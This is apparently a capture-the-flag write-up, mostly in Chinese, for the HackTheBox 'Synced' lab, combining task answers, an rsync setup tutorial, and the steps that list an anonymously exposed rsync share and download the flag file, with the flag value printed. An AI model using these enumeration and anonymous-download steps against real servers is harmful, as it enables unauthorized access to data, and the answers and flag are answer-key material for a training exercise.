 <center>Synced</center>







[toc]









## Synced

> Synced.









### 1. task

1. What is the default port for rsync?

```shell
nmap  -sV -T5 10.129.15.206 -v

873
```

2. How many TCP ports are open on the remote host?

```shell
1
```

3. What is the protocol version used by rsync on the remote machine?

```shell
nmap -sV -p873 10.129.15.206 -v

31
```

4. What is the most common command name on Linux to interact with rsync?

```shell
rsync
```

5. What credentials do you have to pass to rsync in order to use anonymous authentication? anonymous:anonymous, anonymous, None, rsync:rsync

```shell
None
```

6. What is the option to only list shares and files on rsync? (No need to include the leading -- characters)

```shell
rsync --help

--list-only  
```







### 2. rsync

> rsync: Rsync (Remote Sync) 是一个快速、多功能的文件同步和传输工具。
>
> [blog](https://www.ljh.cool/5718.html)

```shell
支持增量传输
保留文件权限和时间戳
支持压缩传输
支持SSH通道加密传输
```

> `默认端口：873`

> 服务端和客户端配置

````shell
1. 服务端
# Debian/Ubuntu
sudo apt update
sudo apt install rsync

# CentOS/RHEL
sudo dnf install rsync


#### 配置文件
```conf:/etc/rsyncd.conf
# 全局配置
uid = nobody
gid = nobody
use chroot = yes
max connections = 4
pid file = /var/run/rsyncd.pid
log file = /var/log/rsyncd.log
transfer logging = yes

# 模块定义
[share]
path = /data/share
comment = Public Share
read only = no
list = yes
auth users = rsyncuser
secrets file = /etc/rsyncd.secrets
```


#### 创建密码文件
```bash
# 创建密码文件
echo "rsyncuser:password" > /etc/rsyncd.secrets

# 设置权限
chmod 600 /etc/rsyncd.secrets
```


#### 启动服务
```bash
# 系统服务方式
sudo systemctl enable rsync
sudo systemctl start rsync

# 或直接启动
sudo rsync --daemon
```


#### 安装客户端
```bash
# Debian/Ubuntu
sudo apt install rsync

# CentOS/RHEL
sudo dnf install rsync
```


#### 创建密码文件
```bash
# 创建客户端密码文件
echo "password" > ~/.rsync.pass

# 设置权限
chmod 600 ~/.rsync.pass
```


#### 本地同步
```bash
# 基本同步
rsync -av source/ destination/

# 带进度条
rsync -av --progress source/ destination/

# 删除目标目录中源目录没有的文件
rsync -av --delete source/ destination/
```


#### 远程同步
```bash
# 通过SSH同步（推荐）
rsync -avz -e ssh /local/path/ user@remote:/remote/path/

# 通过rsync守护进程同步
rsync -avz /local/path/ rsyncuser@remote::share/

# 使用密码文件
rsync -avz --password-file=~/.rsync.pass /local/path/ rsyncuser@remote::share/
```


````







### 3. flag

> flag

```shell
# 1. rsync工具列出rsync上的共享和文件。
rsync --list-only 10.129.15.206::

# 2. 查看public目录
rsync 10.129.15.206::public

# 获取flag
rsync 10.129.15.206::public/flag.txt flag.txt
cat flag.txt
72eaf5344ebb84908ae543a719830519
```

